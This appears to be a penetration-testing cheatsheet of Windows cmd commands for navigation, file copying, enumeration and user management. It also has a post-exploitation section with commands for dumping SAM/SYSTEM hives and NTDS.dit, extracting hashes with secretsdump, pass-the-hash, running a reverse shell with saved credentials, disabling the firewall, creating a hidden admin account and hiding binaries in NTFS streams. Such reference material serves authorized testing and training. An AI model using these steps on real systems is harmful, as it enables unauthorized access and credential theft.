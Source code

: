 # Windows Commands Cheatsheet

This is a cheatsheet for common Windows commands. 

[Windows Local Enum is over here.](../windows_local_enumeration.md)

These are all for cmd.exe unless stated otherwise. There should be a separate powershell cheatsheet somewhere.

## Essential Navigation
```powershell
# change directory
cd whatever
cd ..
cd "C:\path with spaces\something\"

# print current directory path
echo %cd%

# print file content
type filename.txt
more filename.txt

# directory content
dir
dir /A /R /Q

## show all files (including hidden and system files)
dir /A

## show NTFS streams
dir /R

## metadata (including ownership)
dir /Q

## print recursive directory tree
tree /a /f

## tree-like recursive listing
dir /S

# make directory
mkdir whatever

# remove dir
rm directory

# remove file
del somefile
```

## Copying

```powershell
# copy files
copy C:\somefile C:\somefile_copy

# move file
mv C:\somefileold C:\somefilenew
```

```powershell
# SMB network file transfer
## SMB copy from remote to local machine
copy \\<remote_ip>\<remote_smb_share>\somefile.txt C:\local_somefile.txt
copy \\192.168.0.22\MYSHARE\somefile.txt C:\local_somefile.txt

# SMB copy from local to remote machine
copy C:\local_somefile.txt \\<remote_ip>\<remote_smb_share>\somefile.txt
copy C:\local_somefile.txt \\192.168.0.22\MYSHARE\somefile.txt

### execute binary/script from remote SMB share
\\<remote_ip>\<remote_smb_share>\somefile.bat
\\<remote_ip>\<remote_smb_share>\somefile.exe
```

## Permissions

```powershell
# show permissions for directory
icacls C:\

# change permissions for file/directory
CACLS root.txt /e /p Alfred:f

    R – Read
    W – Write
    C – Change (write)
    F – Full control
```

## Enumeration

```powershell
# whoami
whoami
whoami /priv
whoami /groups
whoami /all

# show system info (CPU architecture etc.)
systeminfo
wmic os get osarchitecture || echo %PROCESSOR_ARCHITECTURE% 
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

```powershell
# Manual search passwords in files:
findstr /si password *.xml *.ini *.txt
dir /s *pass* == *.config
```

```powershell
# NTFS Alternate Data Streams
dir /R
more < somefile.txt:hiddenproof.txt
type somebinary.exe > somefile.txt:hiddenbinary.exe
```

### Network

```powershell
# hostname
hostname

# network config
ipconfig
ipconfig /all

# available routes
route print

# known adjacent hosts (arp table)
arp -a
```

Show network shares:
```powershell
net share
```

Application ports:
```powershell
# print open ports
netstat -ano

# find a port
netstat -an | find "<port>"

# find application by pid
tasklist /fi "pid eq 2216"

# show applications associated with port (requires higher privileges)
netstat -ab | more
```

Firewall:
```powershell
# show firewall config
netsh firewall show state
netsh firewall show config

# show firewall config (alt)
netsh advfirewall firewall dump

# disable firewall completely (I hope you know what you are doing!)
netsh firewall set opmode disable
NetSh Advfirewall set allprofiles state off
```

Printers:
```powershell
wmic printer list brief

ps> Get-Printer | Format-List
```


### User Management

```powershell
# list users
net user

# create a user
net user <username> <password> /add

# list local groups
net localgroup

# list local administrators
net localgroup administrators

# create a local group
net localgroup <groupname> /add

# add user to a local group
net localgroup <groupname> <username> /add
net localgroup Administrators pentest /add
net localgroup "Remote Desktop Users" pentest /add

# create new admin account summarized
net user cereal hunter7 /add
net localgroup Administrators cereal /add
```

## Post-Exploitation
```powershell
# Dump Secure Account Manager (SAM) database (admin required obviously)
reg save hklm\sam %TEMP%\sam
reg save hklm\system %TEMP%\system

# optional (AD)
reg save hklm\security %TEMP%\security

# transfer the files to a machine with impacket installed
# dump user hashes
secretsdump.py -system system -sam sam LOCAL
secretsdump.py -system system -sam sam -security security LOCAL


# Alternative path: copy C:\Windows\NTDS\ntds.dit and system
secretsdump.py -ntds ntds.dit -system system.bak LOCAL
```

```powershell
# show saved creds
cmdkey /list

# runas using saved credentials
runas /savecred /user:admin C:\PrivEsc\reverse.exe

# psexec (sysinternals)
psexec \\<target> -d -u <user> -p <password> <command>

# winexe (from kali)
winexe -U 'admin%password123' //<target_ip> cmd.exe

# pass the hash (from kali)
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:<ntlm_hash>' //<target_ip> cmd.exe
```

